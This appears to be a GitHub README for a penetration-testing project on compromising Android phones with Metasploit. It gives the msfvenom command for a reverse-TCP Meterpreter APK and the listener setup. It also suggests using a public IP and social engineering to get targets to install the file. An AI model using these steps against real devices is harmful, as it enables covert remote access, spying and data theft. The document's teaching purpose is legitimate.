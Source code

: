 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output



2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.
 
Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

 


